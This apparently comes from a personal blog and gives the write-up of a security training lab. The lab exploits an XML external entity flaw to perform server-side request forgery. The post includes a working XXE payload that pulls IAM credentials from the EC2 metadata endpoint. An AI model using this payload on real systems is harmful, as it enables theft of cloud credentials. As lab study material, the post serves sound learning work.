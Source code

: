 ```yaml
---
layout: post
title:  "Exploiting XXE to perform SSRF attacks"
date:   2024-11-21 10:20:54 +0530
categories: [BSCP, XXE]
---
```


## Objective 

This lab has a `"Check stock"` feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint. 

## Solution

Well just like the first XXE lab on reading internal files.. copied and used this the same payload in the `POST` body and it worked where we can able to read the internal files actually 

![]({{ site.baseurl }}/assets/images/xxe/xxe-4.png)

In order to complete the lab, we need to exploit SSRF and get AWS metadata content... For that we use the following payload 

```xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Where we have slightly modified the payload, to make an external call to `http://169.254.169.254` to fetch the internal metadata content and if all goes well, we will make a two way interaction and shows the metadata content in the response 

![]({{ site.baseurl }}/assets/images/xxe/xxe-5.png)

And that solves the lab as well

![]({{ site.baseurl }}/assets/images/xxe/xxe-6.png)